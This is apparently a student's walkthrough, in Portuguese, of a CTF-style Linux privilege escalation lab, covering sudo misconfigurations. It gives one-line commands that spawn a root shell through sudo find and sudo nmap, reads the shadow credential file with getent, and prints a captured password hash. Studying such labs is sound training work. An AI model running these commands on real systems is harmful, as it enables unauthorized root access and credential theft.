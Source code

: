- `THM-28392872729920`

---

## Privilege Escalation: Sudo

- Explicacao
    - Qualquer usuário pode verificar sua situação atual relacionada aos privilégios de root usando o comando `sudo -l`
    - [gtfobins](https://gtfobins.github.io/) é uma fonte valiosa que fornece informações sobre como qualquer programa, no qual você pode ter direitos sudo, pode ser usado.
    
- Resportas
    
    ### How many programs can the user "karen" run on the target system with sudo rights?
    
    ```bash
    sudo -l
    ```
    
    - `3`
    
    ### What is the content of the flag2.txt file?
    
    ```bash
    sudo find . -exec /bin/sh \; -quit
    cat /home/ubuntu/fla*
    ```
    
    ### How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?
    
    ```bash
    find / -perm -04000 -ls 2>/dev/null
    ```
    
    - Mesmo nao tendo o nmap, vamos ver no [https://gtfobins.github.io/gtfobins/nmap/#sudo](https://gtfobins.github.io/gtfobins/nmap/#sudo)
    - `sudo nmap --interactive`
    
    ### What is the hash of frank's password?
    
    ```bash
    getent shadow
    ```
    
    - `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1`

---

## Privilege Escalation: SUID
